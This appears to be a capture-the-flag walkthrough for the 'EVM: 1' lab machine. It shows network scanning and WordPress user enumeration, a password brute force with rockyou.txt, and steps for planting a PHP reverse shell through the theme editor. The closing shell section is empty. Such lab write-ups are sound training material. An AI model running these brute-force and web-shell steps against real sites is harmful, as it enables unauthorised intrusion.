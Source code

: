 # EVM: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:fe:d5:08	PCS Systemtechnik GmbH
192.168.56.103	08:00:27:26:e3:c3	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.103`, let's enumerate it


### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.103
Nmap scan report for 192.168.56.103
Host is up (0.0020s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES UIDL SASL AUTH-RESP-CODE PIPELINING TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS IMAP4rev1 Pre-login LOGINDISABLEDA0001 IDLE SASL-IR listed ENABLE ID OK have more capabilities LITERAL+ post-login
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:26:E3:C3 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m58s, deviation: 2h18m33s, median: -1s
| smb2-time: 
|   date: 2024-04-27T09:57:49
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2024-04-27T05:57:49-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   UBUNTU-EXTERMEL<00>  Flags: <unique><active>
|   UBUNTU-EXTERMEL<03>  Flags: <unique><active>
|   UBUNTU-EXTERMEL<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Let's check for port 80, which is a default apache page, try to fuzz the website and you find `/wordpress`

try to enumerate the wordpress site :

```bash
root@kali: wpscan --url http://192.168.56.103/wordpress -e u,vp

[i] User(s) Identified:

[+] c0rrupt3d_brain
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.56.103/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

we found a user, `c0rrupt3d_brain`, we can check for brute force attack on this user:

```bash
root@kali: wpscan --url http://192.168.56.103/wordpress -U user.txt -P /usr/share/wordlists/rockyou.txt
```

and yes, it finds password, `24992499`, and we can login to wordpress panel by this user

after logging in try to access `Appearance -> Theme Editor -> 404.php` and upload a php reverse shell

and a netcat listener to get the shell

### 3.Gaining Shell

After uploading the shellm, navigate to `http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php` and you will get the shell :

```bash

```








